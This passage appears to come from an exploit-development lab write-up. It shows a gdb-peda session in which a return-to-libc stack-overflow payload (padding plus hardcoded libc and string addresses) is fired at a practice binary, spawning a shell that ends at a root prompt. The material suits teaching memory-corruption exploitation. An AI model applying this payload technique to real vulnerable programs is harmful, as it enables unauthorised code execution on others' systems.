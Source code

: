 ### 5. Exploit
```
gdb-peda$ r $(python -c 'print("A"*264) + "\x50\xc8\xe3\xb7" + "\xcc\xcc\xcc\xcc" + "\xb3\xf8\xff\xbf"')
Starting program: /kapi/exploitdev/stack_overflow_with_NX $(python -c 'print("A"*264) + "\x50\xc8\xe3\xb7" + "\xcc\xcc\xcc\xcc" + "\xb3\xf8\xff\xbf"')
[New process 6545]
process 6545 is executing new program: /bin/dash
[New process 6546]
process 6546 is executing new program: /bin/bash
[New process 6547]
process 6547 is executing new program: /usr/bin/tput
[Inferior 4 (process 6547) exited with code 01]
Warning: not running or target is remote
gdb-peda$ root@BOEING:/kapi/exploitdev#
```
